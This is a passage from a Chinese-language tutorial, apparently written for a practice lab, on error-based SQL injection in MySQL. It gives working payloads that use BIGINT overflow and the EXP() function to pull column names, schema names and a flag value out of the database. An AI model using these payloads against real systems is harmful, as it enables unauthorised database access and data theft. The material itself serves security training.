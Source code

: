 

获取所有的列名

```url
id=1" and (select !(select * from (select group_concat(column_name) from information_schema.columns where table_name="flags")x) -~0) %23
```

![局部截取_20250505_213504](./img/局部截取_20250505_213504.png)



获取flag

```url
id=1" and (select !(select * from (select group_concat(flag) from answers.flags)x) -~0) %23
```



### EXP函数报错

`EXP()` 函数用于计算 **自然指数函数**，即返回数学常数 **e**（约等于 2.71828）的指定次幂。以下是详细说明：

`EXP(x)`

- 参数: x 是一个数值表达式
- 返回值：e^x,结果为浮点数

> [!IMPORTANT]
>
> 当传递给 exp 函数一个大于 709 的数值时，会引起一个报错

使用实例: `select exp(~(select * from (select group_concat(schema_name) from information_schema.schemata)x)) %23`

自己去靶场进行实践。
